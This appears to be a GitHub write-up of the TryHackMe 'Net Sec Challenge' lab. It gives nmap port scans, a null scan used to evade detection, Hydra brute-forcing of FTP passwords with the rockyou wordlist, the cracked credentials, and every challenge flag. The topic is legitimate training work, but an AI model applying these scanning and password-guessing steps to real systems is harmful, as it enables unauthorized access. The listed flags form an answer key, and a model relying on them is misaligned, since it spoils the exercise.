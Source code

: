 # Net-Sec-Challenge-Writeup
An updated writeup for the net sec challenge lab do try hack me, good studies

# All Questions

![image](https://github.com/user-attachments/assets/3c366a6e-9c18-4c07-899c-346b1d6d24db)

# WriteUp

Use nmap -p- -v -A machine_ip to see all the details needed for the questions 1-6

1. What is the highest port number being open less than 10,000?

R = 8080

![image](https://github.com/user-attachments/assets/b0b1307f-3198-442e-916c-ce39a8ba20f0)

2. There is an open port outside the common 1000 ports; it is above 10,000. What is it?

R=10021

![image](https://github.com/user-attachments/assets/266226b8-a2e5-44d3-8fce-5e9de0d4910f)

3. How many TCP ports are open?

R= 6, just count the ports.

4. What is the flag hidden in the HTTP server header?

R= THM{web_server_25352}

![image](https://github.com/user-attachments/assets/bb62dcb2-0498-47be-b111-a06df5f7f1d7)

5. What is the flag hidden in the SSH server header?

R= THM{946219583339}

![image](https://github.com/user-attachments/assets/4d1a15d4-59e1-4ce7-ba61-3a34bde95865)

6. We have an FTP server listening on a nonstandard port. What is the version of the FTP server?

R= vsftpd 3.0.5

![image](https://github.com/user-attachments/assets/edbb00d1-43ea-4037-8655-a6a81c01709d)

7. We learned two usernames using social engineering: `eddie` and `quinn`. What is the flag hidden in one of these two account files and accessible via FTP?

hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021
password: jordan

hydra -l quinn -P /usr/share/wordlists/rockyou.txt ftp://machine_ip:10021
password: andrea

![image](https://github.com/user-attachments/assets/902f0a67-e3e4-44cb-bc21-c5563311a160)

$ ftp machine_ip 10021 
user: quinn
password: andrea

connect via ftp

![image](https://github.com/user-attachments/assets/bbd53333-8c6b-41a5-a4e9-5a46678d918f)

ftp> ls
ftp> get ftp_flag.txt
With this we get the flag

![image](https://github.com/user-attachments/assets/9a044d0a-620e-41aa-be51-d255f9a6cccf)

ftp> quit
$ cat ftp_flag.txt

![image](https://github.com/user-attachments/assets/939ea7e5-a1e0-4396-9c68-910e76d13706)

R= THM{321452667098}

8. Browsing to `http://10.10.209.57:8080` displays a small challenge that will give you a flag once you solve it. What is the flag?

![image](https://github.com/user-attachments/assets/e05a9daf-e239-4c15-88fb-0f5926a0aa31)

USE sudo nmap -sN 10.10.209.57

![image](https://github.com/user-attachments/assets/a8e11ffe-0588-437b-8acf-93fd67302ad5)

use null scan for less detection

![image](https://github.com/user-attachments/assets/5ad99a9c-9aaf-4163-b15a-075672777b7f)

R= THM{f7443f99}

Good Learning!
